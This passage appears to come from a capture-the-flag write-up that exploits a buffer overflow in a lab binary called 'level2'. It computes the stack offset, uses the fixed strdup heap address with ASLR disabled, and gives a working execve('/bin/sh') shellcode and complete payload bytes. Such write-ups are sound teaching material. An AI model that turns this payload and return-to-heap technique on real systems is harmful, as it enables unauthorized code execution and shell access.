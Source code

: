 That is the value that will be used in the condition `(eax & 0xB0000000)` to determine the flow of the input. Which is a condition that makes sure we dont overwrite the `return` *address* to an *address* on the stack, so we cannot inject *shellcode* on the **stack**. But maybe we could on the **heap**.

The difference between `EBP+4` - `EAX` = **80 bytes**. 
So with that in mind, we could access the part of the code where `printf` is with a payload like this:


```bash
printf "%-80sAAA\xB0\n" | tr ' ' 'a' | ./level2
```

When we login, we see a message saying that *ASLR* is off:
```bash
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
```
This can be useful to us if we want to try to inject *shellcode* on the heap, because the memory location where `strdup` allocates never changes (`0x0804a008`).

We can find *shellcodes* from [shell-storm](https://shell-storm.org/shellcode/index.html), [exploit-db](https://www.exploit-db.com/) or even github.

The one I will be using is an [execve ("/bin/sh")](https://shell-storm.org/shellcode/files/shellcode-752.html) of 21 bytes.
```assembly
 xor ecx, ecx
 mul ecx
 push ecx
 push 0x68732f2f   ;; hs//
 push 0x6e69622f   ;; nib/
 mov ebx, esp
 mov al, 11
 int 0x80
```
Translated to:

```
char code[] = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f"
              "\x73\x68\x68\x2f\x62\x69\x6e\x89"
              "\xe3\xb0\x0b\xcd\x80";
```

With this we can prepare our payload. To be able to execute the payload we have to write the instructions (*shellcode*) on the **heap** and tell the program to execute that.

We can achieve this by replacing the main's `return` address by the memory location where `strdup` writes, that way the input from the `gets` function is allocated on the **heap** thanks to `strdup` and we can execute it by telling the program that the next instruction on the EIP (instead of the `return`) is on the address `0x0804a008`.

We will have this format: *shellcode* + padding + *heap address*.

This will be the payload for our binary.
```bash
"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80%-59s\x08\xa0\x04\x08\n"
```
